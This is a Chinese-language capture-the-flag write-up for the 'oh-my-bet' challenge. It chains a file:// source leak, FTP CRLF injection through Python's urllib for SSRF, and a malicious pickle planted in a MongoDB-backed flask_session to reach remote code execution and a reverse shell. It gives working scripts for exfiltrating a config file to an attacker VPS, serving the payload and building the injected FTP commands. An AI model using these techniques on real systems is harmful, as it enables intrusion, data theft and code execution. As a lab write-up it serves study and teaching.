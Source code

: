 # oh-my-bet-ZH

这是一道利用FTP构造SSRF攻击mongo，并向mongo中插入恶意pickle链，造成RCE的题目，预期攻击链为

```
FTP->mongo->pickle->rce
```

首先在注册页面的avatat参数处，可以使用file协议(`avatar=file:///etc/passwd`)泄露出题目源码，根据`app.py`的代码逻辑结构我们可以依次泄露出`config.py`以及`utils.py`等题目相关文件，在`utils.py`中还可以发现`get_avatar`方法使用`urllib.request.urlopen(path)`来获得avatar，urllib本身是支持ftp协议的（最新版的Python版本是不支持ftp协议进行CLRF的，在2017年的某次更新中才更新了对CLRF的防护，本意是为了降低构造难度选择了支持直接对ftp协议可以进行CLRF的Python3.6.0，但其实看很多师傅们没用这个条件也做出来了），结合知道一台FTP服务器，我们可以先尝试攻击FTP服务器获得一些配置信息，可以在自己的服务器上使用如下脚本来接收内网FTP服务器传过来的配置信息

```
import socket

HOST = '0.0.0.0'
PORT = 1890
blocksize = 4096
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    s.listen()
    conn, addr = s.accept()
    with conn:
        while 1:
            data = conn.recv(blocksize)
            print(data)
            if not data:
                break
    print('end.')
```

并使用如下脚本来生成获得配置文件的ftp协议请求

```
import urllib.request

# Download file
a = '''CWD files
TYPE I
PORT 1,1,1,1,0,1890   <---- 1,1,1,1 is your vps ip
RETR config.json
'''

c = 'ftp://fan:root@172.20.0.2:8877/files%0d%0a'

exp = urllib.parse.quote(a.replace('\n', '\r\n'))
exp = c + exp
print(exp)
```



根据分析源码与配置文件我们可以发现，题目一共运行了五个服务容器，主体Web服务器在启动之前会先请求一个IP地址为`172.20.0.2`的FTP服务器来获得启动相关的配置信息，配置信息中包括用于用户登录注册的MySQL服务信息、用于缓存用户头像的redis服务信息、用于存储用户SESSION的mongodb服务信息。并且题目使用的是flask_session来处理SESSION的存储，flask_session会存储一个pickle串到mongo数据库中，并在登录的时候通过反序列化mongo数据库中检索的pickle串来生成SESSION。

所以此时我们的攻击利用链其实已经大致构思好了，通过urllib发送ftp协议，利用主动模式（port）先让FTP服务器从我们的远程服务器下载一个可以向mongo中插入一个可以造成RCE的恶意pickle串的payload，然后再利用FTP(port)将这个payload发往mongo数据库，在成功插入这个包含对应SESSIONID的恶意pickle串以后，带着这个SESSIONID去访问题目链接，就可以把shell弹给自己的服务器了（注意Web服务器上没有bash，只有sh，所以得稍微调整一下弹shell的姿势），执行/readflag即可获得flag。

伪造插入恶意pickle串的payload我选择的是重放wiershark抓的包的办法，可以使用pymongo模拟向自己本地发送插入pickle串的办法，然后使用wireshark分析TCP流，复制raw值赋值出来，利用如下脚本生成payload，

```
import struct

a = '''your raw data'''.replace('\n', '')

c = b''

def results(s):
    a = [int(s[i:i+2], 16) for i in range(0,len(s),2)]
    return a

z = results(a)

with open("bb2.txt", "wb") as f:
    for x in z:
        s = struct.pack('B', x)
        f.write(s)
```

可以使用如下脚本来生成将payload上传至FTP服务器的命令，

```
import urllib.request

# Upload file
a = '''TYPE I
PORT 1,1,1,1,0,1889  <---- 1,1,1,1 is your vps ip
STOR cc2.txt
'''

c = 'ftp://fan:root@172.20.0.2:8877/files%0d%0a'

exp = urllib.parse.quote(a.replace('\n', '\r\n'))
exp = c + exp
print(exp)
```

在自己的服务器上布置上一个上传文件的服务，等待内网的FTP服务来获取文件

```
import socket

HOST = '0.0.0.0'  
PORT = 1889        
blocksize = 4096
fp = open('bb2.txt', 'rb')
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    print('start listen...')
    s.listen()
    conn, addr = s.accept()
    with conn:
        while 1:
            buf = fp.read(blocksize)
            if not buf:
                fp.close()
                break
            conn.sendall(buf)
    print('end.')
```

最后生成攻击mongo的ftp命令，

```
import urllib.request

# Attack mongodb
a = '''TYPE I
PORT 172,20,0,5,0,27017
RETR cc2.txt
'''

c = 'ftp://fan:root@172.20.0.2:8877/files%0d%0a'

exp = urllib.parse.quote(a.replace('\n', '\r\n'))
exp = c + exp
print(exp)
```

成功插入pickle串以后，带着SESSIONID去访问题目页面，即可将shell弹到自己的服务器上，最后执行/readflag即可获得flag。